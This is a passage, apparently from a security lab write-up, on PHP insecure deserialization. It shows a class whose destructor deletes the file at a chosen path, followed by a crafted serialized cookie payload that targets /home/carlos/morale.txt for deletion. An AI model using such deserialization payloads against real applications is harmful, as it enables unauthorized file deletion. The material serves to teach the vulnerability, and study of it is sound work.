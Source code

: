 ```php
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
>**Notice:** The `CustomTemplate` class contains the `__destruct()` magic method. This will invoke the `unlink()` method on the `lock_file_path` attribute, which will delete the file on this path.

```php
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
Now just base64 encode the cookie and send it, the `__destruct` method will automatically be called once the request it sent.